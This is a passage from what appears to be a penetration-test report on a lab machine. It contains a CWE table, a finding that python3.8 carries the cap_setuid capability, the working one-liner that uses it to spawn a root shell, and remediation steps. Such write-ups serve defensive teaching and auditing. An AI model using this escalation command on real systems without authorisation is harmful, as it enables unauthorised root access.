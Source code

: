 #### 1.1.1.5 Reference


| Name / CVE / CWE | Score | Description                | Security Impact                                                  | Affected Domain        | External References                                                                                  |
| ---------------- | ----- | -------------------------- | ---------------------------------------------------------------- | ---------------------- | ---------------------------------------------------------------------------------------------------- |
| **CWE-1391**     | N/A   | Use of Weak Credentials    | Enables unauthorized access through easily guessable credentials | Authentication Systems | [https://cwe.mitre.org/data/definitions/1391.html](https://cwe.mitre.org/data/definitions/1391.html) |
| **CWE-521**      | N/A   | Weak Password Requirements | Increases risk of brute-force and credential stuffing attacks    | Authentication Systems | [https://cwe.mitre.org/data/definitions/521.html](https://cwe.mitre.org/data/definitions/521.html)   |

### 1.2.2 (High) Python Binary Privilege Escalation 

#### 1.2.2.1 Exploitation

The tester examined the capabilities of each file recursively and found `/usr/bin/python3.8`  has a `CAP_SETUID` capability.

```less
nathan@cap:~$ getcap -r / 2>/dev/null
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```
 > This showcases the results of `getcap -r / 2>/dev/null` and shows `/usr/bin/python3.8`  has a `CAP_SETUID` capability.
 
 Tester then proceeded to exploit the vulnerability by manipulating its own process UID.

```less
nathan@cap:~$ /usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/sh")'
# script /dev/null -c bash
Script started, file is /dev/null

root@cap:~# id
uid=0(root) gid=1001(nathan) groups=1001(nathan)
```
> This demonstrates the privilege escalation by running the vulnerability found in `/usr/bin/python3.8`

#### 1.1.1.4 Remediation

- Remove unnecessary file capabilities from interpreters:     ```bash   sudo setcap -r /usr/bin/python3.8`
- Assign minimal capabilities only to purpose-built binaries rather than interpreters.
- Ensure `/usr/bin/python3.8` and related libraries are root-owned and non-writable by unprivileged users.
- Apply AppArmor, SELinux, or seccomp profiles to limit interpreter privileges.
- Perform routine capability audits to detect unauthorized privilege assignments:

#### 1.1.1.5 Reference

| Name / CVE / CWE | Score | Description                                                                                                                                                                                                         | Security Impact                                                                                    | Affected Domain           | External References                             |
| ---------------- | ----- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | -------------------------------------------------------------------------------------------------- | ------------------------- | ----------------------------------------------- |
| CWE-250          | N/A   | Improper Privilege ManagementThe product performs an operation at a privilege level that is higher than the minimum level required, which creates new weaknesses or amplifies the consequences of other weaknesses. | An attacker will be able to gain access to any resources that are allowed by the extra privileges. | OS / Application Binaries | https://cwe.mitre.org/data/definitions/250.html |

